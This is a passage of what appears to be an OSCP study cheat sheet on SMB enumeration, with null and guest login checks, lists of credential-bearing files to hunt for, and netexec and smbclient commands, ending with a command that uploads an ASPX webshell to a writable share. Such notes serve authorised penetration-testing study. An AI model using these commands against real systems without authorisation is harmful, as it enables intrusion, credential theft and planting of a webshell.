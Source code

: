 ### 1. Enumeration Methodology
1. **Always try multiple tools** - smbclient might work when others fail
2. **Test both ports** - 139 and 445 may have different access
3. **Try various authentication** - null, guest, username=password
4. **Use -W flag** for domains: `smbclient -L //<target> -U '' -W <domain>`

### 2. Common OSCP SMB Scenarios
- **Anonymous/Guest access** to shares with sensitive files
- **Writable shares** for payload upload
- **Scripts$ and SYSVOL** shares often contain credentials
- **Users$ shares** with user profile information
- **Print$ shares** sometimes writable

### 3. Key Files to Look For
```bash
# Configuration files
*.conf, *.config, *.ini, *.xml

# Scripts with hardcoded credentials
*.ps1, *.bat, *.vbs, *.py

# Database files
*.db, *.mdb, *.sqlite

# Text files with passwords
*pass*, *cred*, *login*, *user*

# Registry exports
*.reg

# Group Policy files
Groups.xml, Services.xml, Scheduledtasks.xml
```

### 4. Quick Win Commands
```bash
# Try these first on any SMB service
netexec smb <target> -u '' -p '' --shares
netexec smb <target> -u 'guest' -p '' --shares
smbclient -L //<target> -N
smbclient -L //<target> -U ""

# If you find writable shares
smbclient //<target>/<writableshare> -N -c "put /usr/share/webshells/aspx/cmdasp.aspx"
```

---

## Quick Reference Commands
